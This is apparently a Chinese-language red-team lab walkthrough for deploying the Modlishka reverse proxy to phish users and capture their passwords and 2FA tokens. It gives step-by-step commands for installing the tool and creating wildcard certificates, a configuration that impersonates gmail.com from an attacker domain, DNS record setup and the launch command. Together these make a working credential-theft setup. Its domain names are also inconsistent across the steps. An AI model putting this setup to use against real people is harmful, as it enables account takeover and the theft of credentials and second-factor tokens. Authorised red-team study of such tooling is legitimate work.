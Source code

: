 使用 Modlishka 反向 HTTP 代理进行网络钓鱼



# Modlishka

本实验展示了如何设置`Modlishka`可用于网络钓鱼活动的反向 HTTP 代理，以窃取用户密码和 2FA 令牌。Modlishka 使这成为可能，因为它位于您作为攻击者冒充的网站和受害者 (MITM) 之间，同时记录了所有通过它的流量/令牌/密码。

# 1、安装

## 1、安装certbot 

```
brew install certbot  #mac
apt-get install certbot #linux
```

## 2、安装Modlishka

```
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64
ls -lah 
```

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFT9ga7bDsW9ghRRgY%2FAnnotation 2019-06-25 214300.png?alt=media&token=42a4c407-1ba5-45ef-90e1-b65f97379636)

![image-20220731104013359](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pwt62y73j20ua07cmyg.jpg)

# 2、Modlishka 配置

让我们为 modlishka 创建一个配置文件：

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFTFMH3mWerGfyOEOV%2FAnnotation 2019-06-25 214425.png?alt=media&token=88207ce2-73be-4995-bf83-ccdebc499b0b)

```
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```

# 3、配置证书

重要 - 让我们为我希望我的网络钓鱼受害者登陆的域生成一个证书`*.tobyblog.cn`：

## 1、使用certbot生成证书

```
sudo certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d "*.tobyblog.cn" --email noreply@live.com
```

![image-20220731104407974](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pwx6qcpfj210s0p4q6v.jpg)

然后我们需要在我们的域名的DNS控制台配置,配置完需要等待10分钟左右才能生效.

可以在上面第二个红框地址查看配置是否生效

![image-20220731104711648](https://tva1.sinaimg.cn/large/e6c9d24egy1h4px0daywhj20uh0u0q4j.jpg)

![image-20220731105901604](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pxcp471rj21iy0u0dhw.jpg)

创建 DNS TXT 记录后，按回车继续生成证书：

![image-20220731105958440](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pxdntz1sj21dc0im0wb.jpg)

生成证书后，我们需要将它们转换为适合嵌入 JSON 对象的格式：

```
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem 
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem 
```

![image-20220731110032804](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pxea1g8nj21oa0l2tmc.jpg)

在配置文件中添加证书和key

![image-20220731111110653](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pxpbxv9xj21ka0u0q82.jpg)

# 4、配置访问DNS 记录

让我们为根主机创建一条 A 记录`t`，它只指向 钓鱼服务器 的 IP：

![image-20220731111222346](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pxqrl5n8j216m03yglp.jpg)

这非常重要——我们需要`CNAME`记录任何`*`指向的主机/子域`t`

![img](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LiFMettRbOEeU1PNch4%2F-LiFTu8I9q-pAD0c5HDZ%2FAnnotation 2019-06-25 215702.png?alt=media&token=b739db5f-3dce-4ce1-836c-faf61f35100e)

# 5、启动 Modlishka

我们现在准备通过启动 modlishka 并为其提供 modlishka.json 配置文件来开始测试：

### 1

```
sudo ./Modlishka-linux-amd64 -config modlishka.json
```



下面显示了通过访问 t.tobylobg.cn，我如何获得 www.su-sanha.cn 的内容 Modlishka 和 MITM 有效。再次强调一下很重要 - 我们没有创建目标网站的任何副本或模板 - 受害者实际上正在浏览 gmail，只是它是通过 Modlishka 提供服务的，在此检查流量并捕获密码：

![img](https://tva1.sinaimg.cn/large/e6c9d24egy1h4pwlj0b3vg21ih0u00y2.gif)

# 参考